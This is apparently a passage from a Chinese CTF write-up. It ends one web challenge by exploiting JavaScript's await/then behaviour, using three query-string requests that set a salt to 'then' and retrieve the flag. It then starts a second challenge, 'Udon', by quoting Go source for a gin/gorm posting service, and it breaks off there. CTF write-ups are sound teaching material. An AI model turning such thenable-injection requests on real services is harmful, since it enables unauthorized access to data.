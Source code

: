 简而言之await是个语法糖，会去调用返回值的then方法，如果返回值没有then方法的话就会调用原型的then方法，

于是我们只要添加then方法就可以代替Promise.then方法了

于是乎：

```
/?action=SetSalt&data=flag
/?action=SetSalt&data=then
/?action=GetSalt
```

这样就拿到flag拉



## Udon

审一审代码，代码还是很简单

```go
package main

import (
	"context"
	"crypto/rand"
	"log"
	"math/big"
	"net/http"
	"os"
	"regexp"
	"time"

	"github.com/gin-gonic/gin"
	"gorm.io/driver/sqlite"
	"gorm.io/gorm"

	"github.com/go-redis/redis/v8"
)

type Post struct {
	ID          string    `gorm:"primaryKey"`
	UID         string    `gorm:"column:uid"`
	Title       string    `gorm:"column:title"`
	Description string    `gorm:"column:description"`
	CreatedAt   time.Time `gorm:"column:created_at"`
}

const letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

func randomString(n int) (string, error) {
	b := make([]byte, n)
	for i := range b {
		idx, err := rand.Int(rand.Reader, big.NewInt(int64(len(letters))))
		if err != nil {
			return "", err
		}
		b[i] = letters[idx.Int64()]
	}
	return string(b), nil
}

func (p *Post) BeforeCreate(tx *gorm.DB) (err error) {
	p.ID, err = randomString(10)
	return err
}

```